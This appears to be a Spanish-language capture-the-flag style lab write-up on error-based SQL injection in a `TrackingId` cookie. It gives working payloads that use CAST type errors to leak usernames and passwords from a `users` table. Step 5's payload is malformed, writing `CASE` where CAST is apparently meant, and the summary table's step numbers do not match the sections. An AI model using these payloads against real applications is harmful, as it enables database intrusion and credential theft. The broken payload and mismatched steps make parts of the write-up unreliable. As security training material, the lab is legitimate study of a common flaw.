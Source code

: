 #  LAB 2 — Inyección SQL Basada en Errores

## Objetivo

Identificar y explotar un punto vulnerable en el parámetro `TrackingId` para provocar errores que revelen información sensible de la base de datos (usuarios y contraseñas).

---

## 1️⃣ Probar error inicial

```bash
TrackingId=Wn5WKnuRUukahftF
```

* **Resultado esperado:** La aplicación responde normalmente, sin error visible.
* **Propósito:** Confirmar que el parámetro es funcional.

---

## 2️⃣ Comprobar si los errores se pueden suprimir con comentario

```bash
TrackingId=Wn5WKnuRUukahftF'--
```

* **Resultado esperado:** No debería devolver error.
* **Interpretación:** Si el error desaparece, el parámetro es vulnerable a inyección SQL basada en comillas.

---

## 3️⃣ Probar con una expresión `AND`

```bash
TrackingId=Wn5WKnuRUukahftF' AND CAST((SELECT 1) AS int)--
```

* **Resultado:**
  `ERROR: argument of AND must be type boolean, not type integer`
* **Interpretación:** El servidor está revelando detalles del motor SQL → **confirmación de vulnerabilidad**.

---

## 4️⃣ Ajustar expresión a tipo booleano

```bash
TrackingId=Wn5WKnuRUukahftF' AND 1=CAST((SELECT 1) AS int)--
```

* **Resultado esperado:** Sin error.
* **Conclusión:** La expresión se evalúa correctamente → el payload se ejecuta dentro de la consulta SQL.

---

## 5️⃣ Intentar extraer nombres de usuario (prueba inicial)

```bash
TrackingId=' AND 1=CASE((SELECT username FROM users) AS int)--
```

* **Posibles resultados:**

  * `ERROR: invalid input syntax for type integer: "administrator"`
  * `ERROR: more than one row returned by a subquery used as an expression`
* **Interpretación:**
  El error confirma que el subquery se ejecuta correctamente, pero devuelve varias filas o devuelve un valor no convertible a entero.

---

## 6️⃣ Reducir espacio: eliminar parte del TrackingId

```bash
TrackingId='
```

* **Observación:** Devuelve un error que sugiere que la consulta se ha ejecutado pero el resultado produjo un tipo/valor inesperado:
  `ERROR: more than one row returned by a subquery used as an expression`

---

## 7️⃣ Forzar la subconsulta a devolver una sola fila (`LIMIT 1`)

```bash
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

* **Resultado:**
  `ERROR: invalid input syntax for type integer: "administrator"`
* **Conclusión:**
  ✅ El error revela el **primer nombre de usuario** (`administrator`).

---

## 8️⃣ Repetir para la contraseña

➡️ **Aquí van los comandos para la contraseña**, repitiendo la estructura anterior pero apuntando a la columna `password`.

Ejemplo de plantilla (rellenar/completar con tus comandos):

```bash
# Aquí van los comandos
# Ejemplo: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

---

## 🧩 Resumen del proceso

| Paso | Acción                        | Resultado                    | Conclusión                         |
| ---- | ----------------------------- | ---------------------------- | ---------------------------------- |
| 1    | Probar `TrackingId` normal    | Sin error                    | Parámetro válido                   |
| 2    | Añadir `'--`                  | Sin error                    | Vulnerable a inyección             |
| 3    | `AND CAST((SELECT 1) AS int)` | Error de tipo                | SQL ejecutado                      |
| 4    | Corregir a booleano           | Sin error                    | Validación pasada                  |
| 5    | Extraer `username`            | Error revela múltiples filas | Subquery ejecutada                 |
| 6    | Añadir `LIMIT 1`              | Error con valor literal      | Usuario encontrado                 |
| 7    | Repetir con `password`        | —                            | Contraseña revelada (si se aplica) |

---


